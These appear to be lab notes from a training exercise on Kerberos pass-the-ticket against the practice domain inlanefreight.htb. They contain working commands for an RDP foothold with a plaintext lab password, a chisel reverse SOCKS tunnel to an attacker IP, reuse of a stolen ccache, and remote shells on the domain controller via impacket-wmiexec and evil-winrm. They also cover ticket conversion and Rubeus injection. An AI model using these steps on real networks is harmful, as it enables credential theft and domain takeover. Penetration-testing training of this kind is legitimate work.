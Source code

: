 
Connect to foothold machine 
```shell

xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution /scale-desktop:200 /scale:180
```
Point proxy to it 
```cmd
chisel.exe client <attack ip>:8080 R:socks
```

Set the KRB5CCNAME Enviromental Variable 
```shell
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```
#### Impacket 
#impacket
```shell
proxychains impacket-wmiexec dc01 -k
```

#### Evil-Winrm
May need to install Kerberos Auth Package 
```shell
sudo apt-get install krb5-user -y
```

Change configuration
`/etc/krb5.conf`

```shell
cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

```

```shell
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

#### Impacket Ticket Converter 
```shell
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
Convert to Kirbi

##### Reverse Operation 
```cmd
Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```
